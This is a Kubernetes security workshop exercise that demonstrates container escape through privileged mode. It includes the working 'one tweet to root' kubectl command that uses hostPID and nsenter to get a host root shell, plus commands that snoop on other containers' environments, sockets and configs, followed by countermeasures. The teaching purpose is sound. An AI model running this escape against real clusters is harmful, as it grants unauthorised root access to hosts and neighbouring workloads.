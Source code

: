 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Avoid privileged mode"
draft = false
toc = true
weight = 65
+++

### Introduction
In this exercise, we cover:

 - What `--privileged` mode does
 - The crazy things it allows
 - How you might be able to replace it

### Setup
We'll exec directly into a container in this example.

This example is based on Ian Coldwater and Duffie Cooley's example from [Black Hat USA 2019](https://github.com/mauilion/blackhat-2019).

As a preliminary step, we'll deploy nginx and then spy on it later.
_(Note: adjust the replica count to match the number of nodes in your cluster.)_

```
kubectl create deployment nginx --image=nginx:stable
kubectl scale deployment nginx --replicas 2
kubectl get pods -w
```

To start, we'll use [Duffie Cooley's "one tweet to root"](https://twitter.com/mauilion/status/1129468485480751104)—it takes less than 280 characters!

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Here's that spec again, pretty-printed:
```json
{
  "spec": {
    "hostPID": true,
    "containers": [
      {
        "name": "1",
        "image": "alpine",
        "command": [
          "nsenter",
          "--mount=/proc/1/ns/mnt",
          "--",
          "/bin/bash"
        ],
        "stdin": true,
        "tty": true,
        "securityContext": {
          "privileged": true
        }
      }
    ]
  }
}
```

You'll notice:

 - `"hostPID": true` — The container is entering the host's process (PID) namespace
 - `"privileged": true` — The container is running in `--privileged` mode
 - `"stdin": true, "tty": true` — We'll attach a terminal to the running container when it starts
 - `"command"` — It's going to start out using `nsenter` to go into the **host**'s PID 1 (first process)

### "Attack"
Once we are in this shell, we can do some fun stuff to explore the host and learn about other processes and containers.

```
ls /proc/*/environ

pgrep -a nginx
(nsenter -n -t $(pgrep nginx | head -n1) ss -ln)
(nsenter -m -t $(pgrep nginx | head -n1) cat /etc/nginx/nginx.conf)

(nsenter -m -t 1 cat /etc/resolv.conf)
```

Can you think of anything else you'd want to do to the host while we're here?

### Countermeasure
Avoid `--privileged` mode and `hostPID` unless super necessary.

Consider applying admission control (using a dynamic admission controller or a `PodSecurityPolicy`) to block privileged containers by default.

### Attack effects after patching

Let's start just changing `hostPID: false`.

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{ "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

We can also try with `privileged: false`:
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true}]}}'
```

Note that neither succeeds because we either lack `/bin/bash` (a side-effect of staying in our Alpine container's `pid 1` instead of the host's) or we can't actually mount the process's mount (a side-effect of not being `--privileged`).

### How to use it yourself
Use the capabilities setting in the `securityContext` rather than privileged mode, if you can.
There are limited circumstances where you can and can't do this, which are hard to enumerate.

To know what caps you need, consider [`capable`](http://www.brendangregg.com/blog/2016-10-01/linux-bcc-security-capabilities.html).

Remember that all of these changes should go through CI and testing, like any code change.
You need to be sure all of your important flows are exercised if you want to have confidence in this change.

### Advertisement
Go see Maya and Frenchie's talk tomorrow at 11am about privileged containers!

### Next up
We'll cover resource limits in the next exercise:

[**Set resource limits**](../80-limits)
